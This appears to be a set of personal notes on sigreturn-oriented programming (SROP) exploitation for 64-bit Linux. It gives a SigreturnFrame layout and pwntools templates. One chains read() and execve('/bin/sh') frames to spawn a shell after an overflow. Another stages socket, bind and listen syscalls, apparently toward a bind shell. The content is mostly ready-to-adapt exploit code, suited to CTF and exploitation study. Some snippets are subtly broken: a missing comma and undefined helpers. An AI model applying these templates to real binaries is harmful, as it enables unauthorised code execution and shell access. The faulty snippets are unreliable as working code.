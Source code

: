[toc]

## FRAME

### Struct

```py
# sigFrame=SigreturnFrame()
sigFrame = flat({
    0x0:  [rt_sigreturn, uc_flags],
    0x10: [&uc, uc_stack.ss_sp],
    0x20: [uc_stack.ss.flags, uc_stack.ss_size],
    0x30: [r8, r9],
    0x40: [r10, r11],
    0x50: [r12, r13],
    0x60: [r14, r15],
    0x70: [rdi, rsi],	# rdi=&'/bin/sh\x00'
    0x80: [rbp, rbx],
    0x90: [rdx, rax],	# rax=59(execve)
    0xa0: [rcx, rsp],
    0xb0: [rip, eflags],	# rip=&syscall
    0xc0: [cs/gs/fs, err],
    0xd0: [trapno, oldmask(unused)],
    0xe0: [cr2(segfault addr), &fpstate],
    0xf0: [__reserved, sigmask],
})
```

### Size

In 64-bit Linux, the **`SigreturnFrame`** usually holds the state of the following registers:

- `r8`
- `r9`
- `r10`
- `r11`
- `r12`
- `r13`
- `r14`
- `r15`
- `rdi`
- `rsi`
- `rbp`
- `rbx`
- `rdx`
- `rax`
- `rcx`
- `rsp`
- `rip`
- `eflags`
- `cs` (code segment)
- `gs`, `fs` (segment selectors)
- `ss` (stack segment)

Each of these registers occupies 8 bytes:

```
21 registers × 8 bytes/register = 168 bytes
```

However, there are likely additional fields (such as padding, alignment, or extra fields for the signal handler context). A **typical size for the `SigreturnFrame`** in 64-bit Linux is **0xF8 (248 bytes)**.



## Templates

### Read | System

```py
rop 	        = ROP(libc)
syscall_r       = libc_base + rop.find_gadget(['syscall', 'ret'])[0]
p_rax_syscall_r = libc_base + rop.find_gadget(['pop rax', 'syscall'])[0]
bin_sh		    = libc_base+ next(libc.search(b'/bin/sh\x00'))
pa(syscall_r)
pa(bin_sh)

buf = 0xdeadbeef

# 1st sigFrame: read '/bin/sh\x00' into buf
sigFrame = SigreturnFrame()
sigFrame.rax = 0	# read()
sigFrame.rdi = 0
#sigFrame.rbp = buf+0x20	
#sigFrame.rsp = buf
sigFrame.rsi = buf	# buf
sigFrame.rdx = 0x200	# size
sigFrame.rip = syscall_r

pl = pads	# overflow

pl += flat({
    0x0 : p_rax_syscall_r,	# ret
    0x8 : 15,	# rt_sigreturn
    0x10: p_rdi_r,
    0x18: 0,	# read->fd
    0x20: syscall_r,
    0x28: sigFrame,
}, filler=b'\0')

# 2nd sigFrame: system('/bin/sh\x00')
sigFrame = SigreturnFrame()
sigFrame.rax = 59	# execve()
sigFrame.rdi = buf
sigFrame.rsi = 0x0
sigFrame.rdx = 0x0
sigFrame.rip = syscall_r

pl += flat({
    0x0:  p_rax_syscall_r,
    0x8:  15,	
    0x10: syscall_r
    0x18: sigFrame,
}, filler=b'\0')

pl += b'/bin/sh\x00'
```

### Socket

```py
rop 	        = ROP(libc)
syscall_r       = libc_base + rop.find_gadget(['syscall', 'ret'])[0]

# socket() - addr1
sigFrame=SigreturnFrame()
sigFrame.rax=41	# socket
sigFrame.rdi=[family]
sigFrame.rsi=[type]
sigFrame.rdx=[protocol]
sigFrame.rsp=addr2
sigFrame.rip=syscall_r

# bind() - addr2
sigFrame=SigreturnFrame()
sigFrame.rax=49	# bind
sigFrame.rdi=[fd]
sigFrame.rsi=[sockaddr]
sigFrame.rdx=[addrlen]
sigFrame.rsp=addr3
sigFrame.rip=syscall_r

# listen() - addr3
sigFrame=SigreturnFrame()
sigFrame.rax=50	# listen
sigFrame.rdi=[fd]
sigFrame.rsi=[backlog]
sigFrame.rsp=addr4
sigFrame.rip=syscall_r
```

